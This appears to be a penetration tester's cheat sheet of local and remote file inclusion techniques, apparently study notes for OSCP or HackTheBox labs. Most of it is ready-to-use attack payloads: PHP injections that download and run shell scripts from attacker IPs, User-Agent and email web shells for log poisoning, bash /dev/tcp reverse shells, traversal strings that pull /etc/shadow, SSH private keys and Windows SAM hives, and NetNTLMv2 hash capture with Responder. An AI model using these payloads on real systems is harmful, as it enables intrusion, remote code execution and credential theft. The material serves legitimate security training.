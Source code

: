 # LFI/RFI

<details>

<summary>Signs</summary>

* Files being included in Get parameter

- Able to view file extensions (eg: french.html)

</details>

<details>

<summary>Method</summary>

#### Method

1. Try to view the server file (view the blacklist)
2. Log poisoning
3. Find Interesting files to read

[https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf](https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-\(lfi\).pdf)

</details>

<details>

<summary>Advanced LFI</summary>

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert)

```bash
' and die(show_source('/etc/passwd')) or '
```

```php
'+and+die(system("wget+http%3a//192.168.45.5/shell.sh+-O+/tmp/shell.sh%3bchmod+777+/tmp/shell.sh%3b/tmp/shell.sh"))+or+'
```

```bash
' and die(system("curl http://192.168.45.5/shell.php|php")) or '
```

</details>

<details>

<summary>Base64-encoded LFI</summary>

<pre class="language-bash"><code class="lang-bash">/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
<strong># Always view index.php (might have DB config)
</strong><strong>/?debug=php://filter/convert.base64-encode/resource=index.php
</strong></code></pre>

### Export the wp-config.php and save as base64

```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php
```

</details>

<details>

<summary>User-Agent LFI</summary>

* Sometimes it's impt to use `"` as `'` is being used by the database to define the entire string (Putting Webshell in PHPLiteAdmin DB)

```php
User-Agent:<?php system($_GET['cmd']); ?>
```

```php
User-Agent:<?php system($_REQUEST["cmd"]); ?>
```

```php
User-Agent:<?php echo shell_exec($_GET["cmd"]);?>
```

</details>

<details>

<summary>LFI to RCE (Filter Chaining)</summary>

Use [https://github.com/Tanguy-Boisset/LFI-to-RCE-filters](https://github.com/Tanguy-Boisset/LFI-to-RCE-filters)

LFI is present in: `http://172.16.1.10/nav.php?../../../../etc/passwd`

```bash
python3 lfi-to-rce.py http://172.16.1.10/nav.php page
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>LFI To RCE (Log poisoning)</summary>

* Linux

<pre class="language-bash"><code class="lang-bash"><strong>view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&#x26;cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php
</strong></code></pre>

* WIndows

```bash
?page=../../../../../xampp/apache/logs/access.log
```

User-Agent:\<?php system($\_GET\['cmd']) ?>

RCE:

[http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami ](http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami)

</details>

<details>

<summary>LFI To RCE (Mail Method)</summary>

#### Send email to asterisk user (LFI /etc/passwd to determine user)

```bash
swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
```

#### Able to obtain RCE (webshell)

```bash
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

![](<../.gitbook/assets/image (105).png>)

</details>

<details>

<summary>Testing for RFI</summary>

```php
<?php echo shell_exec('echo abc > /tmp/test.txt');echo file_get_contents('/tmp/test.txt');?> 
```

</details>

<details>

<summary>RFI Rev shell</summary>

```bash
http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec('bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.68%2F443%200%3E%261');?>
```

* Have to url-encode the rev shell payload in `shell_exec()`

```php
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

</details>

<details>

<summary>Finding interesting files to read</summary>

Use Burpsuite --> Intruder --> wordlist: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

</details>

<details>

<summary>Interesting files (Linux)</summary>

* /etc/passwd&#x20;
* /etc/shadow&#x20;
* /etc/issue&#x20;
* /etc/group&#x20;
* /etc/hostname&#x20;
* /etc/ssh/ssh\_config&#x20;
* /etc/ssh/sshd\_config&#x20;
* /root/.ssh/id\_rsa&#x20;
* /root/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/id\_rsa

```
RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access_log
Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log
FreeBSD Apache access log file location – /var/log/httpd-access.log
```

* /etc/httpd/logs/access\_log&#x20;
* /etc/httpd/logs/error\_log
* &#x20;/var/www/logs/access\_log&#x20;
* /var/www/logs/access.log&#x20;
* /usr/local/apache/logs/access\_ log&#x20;
* /usr/local/apache/logs/access. log&#x20;
* /var/log/apache/access\_log&#x20;
* /var/log/apache2/access\_log&#x20;
* /var/log/apache/access.log&#x20;
* /var/log/apache2/access.log&#x20;
* /var/log/access\_log

</details>

<details>

<summary>Interesting files (Windows)</summary>

* /windows/system32/drivers/etc/hosts&#x20;

- ./../../xampp/apache/conf/httpd.conf
- ../../../xampp/password
- ../../../../../../Program Files/FileZilla Server/FileZilla Server.xml
- /boot.ini&#x20;
- /autoexec.bat&#x20;
- c:\xampp\htdocs\\...

### SAM Files & SECURITY FILES&#x20;

```bash
Systemroot is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM


%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

* Just wget the files

```bash
wget "http://10.3.3.190/..%5C..%5C..%5CWindows/system32/config/RegBack/SAM.OLD"
```

</details>

<details>

<summary>Exfiltrating Binary Data Embedded in HTML Tags</summary>

```bash
 wget -qO- 'http://X.X.X.X/vulnpage?vulparam=..\..\..\..\..\..\..\..\..\..\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\s*(.*?)\s*<\/title/si' > SAM
```

</details>

<details>

<summary>Capturing NetNTLMv2 from RFI</summary>

Using a protocol like SMB, victim will try to authenticate to our machine, and we can capture the NetNTLMv2. A NetNTLMv2 challenge / response is a string specifically formatted to include the challenge and response.&#x20;

On Attacker:

```bash
responder -I tun0
```

On Victim:

```
http://unika.htb/?page=//10.10.14.25/whatever
```

</details>

<details>

<summary>Shortening LFI Query</summary>

### Example (checking for keyword in LFI query)

LFI found:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../../../etc/passwd
```

Filter is actually checking for the presence of `ninevehNotes.txt`

So the LFI query can be simplified to:

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../etc/passwd
```

</details>

<details>

<summary>Apache 2.4.49</summary>

```bash
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/anita/.ssh/id_ecdsa
```

</details>

<details>

<summary>Links</summary>

[https://oscp.infosecsanyam.in/web-application/lfi](https://oscp.infosecsanyam.in/web-application/lfi)

</details>

<details>

<summary>How to know if file is present but unable to be viewed currently?</summary>

`/nav.php?page=../../../../var/www/html/wordpress/wp-config.php` --> Status code 500

means that file is present but unable to be viewed --> need b64 encode

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php`

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

OTHERWISE, if file is not present --> Status code 200

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

OR if file is present and viewable --> Status Code 200

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>
